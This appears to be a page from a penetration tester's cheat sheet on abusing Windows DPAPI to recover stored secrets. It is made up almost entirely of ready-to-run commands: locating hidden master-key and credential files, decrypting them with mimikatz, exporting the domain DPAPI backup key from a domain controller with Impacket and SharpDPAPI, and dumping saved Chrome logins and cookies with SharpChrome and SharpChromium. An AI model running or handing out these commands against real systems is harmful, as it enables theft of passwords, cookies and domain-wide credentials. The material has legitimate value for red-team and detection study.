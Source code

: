 ```yaml
---
description: Data Protection API
---
```


# DPAPI

* [https://habr.com/ru/post/434514/](https://habr.com/ru/post/434514/)
* [https://otterhacker.github.io/Pentest/Techniques/DPAPI.html](https://otterhacker.github.io/Pentest/Techniques/DPAPI.html)

{% file src="/.gitbook/assets/ZN17 - Hunting for Credentials Dumping in Windows Environment (Teymur Kheirkhabarov).pdf" %}

Master keys locations (hidden files, need `-Force`):

```
PS > ls -Force C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -Force C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```

Credential files locations (hidden files, need `-Force`):

```
PS > ls -Force C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -Force C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff"
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```




## Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```




## Impacket

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs:

```
$ dpapi.py backupkeys --export -k -no-pass -t DC01.megacorp.local
$ dpapi.py masterkey -file ./Users/Administrator/AppData/Roaming/Microsoft/Protect/<SID>/00ff00ff-00ff-00ff-00ff-00ff00ff00ff {-password 'Passw0rd!' -sid <SID> | -pvk 'G$BCKUPKEY_<GUID>.pvk}
$ dpapi.py credential -file ./Users/Administrator/AppData/Roaming/Microsoft/Credentials/00ff00ff00ff00ff00ff00ff00ff00ff -key 0x<HEX_MASTER_KEY>
```




## SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI#table-of-contents](https://github.com/GhostPack/SharpDPAPI#table-of-contents)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

Triage user's *credentials*, *vaults*, *rdg* and *certificates*:

```
Cmd > .\SharpDPAPI.exe triage /password:Passw0rd!
```

Triage machine's credentials (*machinecredentials*), vaults (*machinevaults*) and certificates (*certificates /machine*):

```
Cmd > .\SharpDPAPI.exe machinetriage
```

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs for any user in the domain with it (needs DA privileges):

```
Cmd > .\SharpDPAPI.exe backupkey /nowrap [/server:DC01.megacorp.local] [/file:key.pvk]
Cmd > .\SharpDPAPI.exe credentials /pvk:key.pvk [/server:PC01.megacorp.local]
```



### SharpChrome

- [https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands](https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands)

```
Cmd > .\SharpChrome.exe logins|cookies [/pvk:key.pvk]
```




## SharpChromium

- [https://github.com/djhohnstein/SharpChromium](https://github.com/djhohnstein/SharpChromium)

```
Cmd > dir "C:\Users\snovvcrash\AppData\Local\Google\Chrome\User Data\Default"
Cmd > .\SharpChromium.exe logins
Cmd > .\SharpChromium.exe cookies
```




## Tools

- [https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
- [https://github.com/zblurx/dploot](https://github.com/zblurx/dploot)
- [https://github.com/leftp/DPAPISnoop](https://github.com/leftp/DPAPISnoop)
